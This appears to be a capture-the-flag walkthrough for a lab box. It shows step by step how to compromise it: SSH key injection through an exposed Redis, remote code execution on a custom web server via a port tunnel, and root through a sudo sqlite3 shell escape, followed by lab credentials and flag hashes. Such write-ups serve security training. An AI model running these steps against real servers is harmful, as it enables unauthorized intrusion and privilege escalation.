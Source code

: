 # User



## Port 6379
Misconfigured Redis server
Vulnerable to sshkey authorized_keys injection using redis_sshkey_dropper.sh

Gets access to the server as redis user

    ./redis_sshkey_dropper.sh 10.10.69.13 6379 redis /var/lib/redis/.ssh

## Port 8080
Custom HTTP server
Source code is "leaked" with a comment on /index.html
Vulnerable to RCE using webserver_python_RCE.sh

Tunnel the port from the shell you got from redis by typing:

    ~C
    -L 8080:127.0.0.1:8080

Gets access to michiko-arasaka user

    ./webserver_python_RCE.sh http://127.0.0.1:8080/ 10.10.69.42 3000

# Root

## Sudo sqlite3

As `michiko-arasaka` you can list your sudo permissions with `sudo -l`

You can execute sqlite3 as root on this box, so you can run

    sudo /usr/bin/sqlite3
    .shell /bin/bash

Rooted!

# Creds
root:UnguessableP@ssw0rd

/root/root.txt : 4e067a8231035d94ca54f1e41c12df6e
 

michiko-arasaka:4d4m5M@SH3R

/home/michiko-arasaka/user.txt : 169ab538813557728c78b637db91d1b0

